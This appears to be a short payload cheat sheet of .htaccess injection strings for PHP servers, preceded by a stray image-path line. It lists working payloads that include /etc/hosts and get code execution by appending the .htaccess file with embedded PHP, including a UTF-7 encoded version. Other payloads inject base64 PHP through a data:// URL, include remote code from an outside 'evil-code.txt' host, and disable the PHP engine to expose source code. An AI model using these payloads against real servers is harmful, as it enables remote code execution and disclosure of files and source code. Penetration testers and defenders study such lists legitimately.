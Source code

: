 htaccess injection payload
================================

file inclusion
--------------------------------
::

php_value auto_append_file /etc/hosts

code execution
--------------------------------
::

php_value auto_append_file .htaccess
#<?php phpinfo();

file inclusion
--------------------------------
::

php_flag allow_url_include 1
php_value auto_append_file data://text/plain;base64,PD9waHAgcGhwaW5mbygpOw==
#php_value auto_append_file data://text/plain,%3C%3Fphp+phpinfo%28%29%3B
#php_value auto_append_file https://sektioneins.de/evil-code.txt

code execution with UTF-7
--------------------------------
::

php_flag zend.multibyte 1
php_value zend.script_encoding "UTF-7"
php_value auto_append_file .htaccess
#+ADw?php phpinfo()+ADs

Source code disclosure
--------------------------------
::

php_flag engine 0
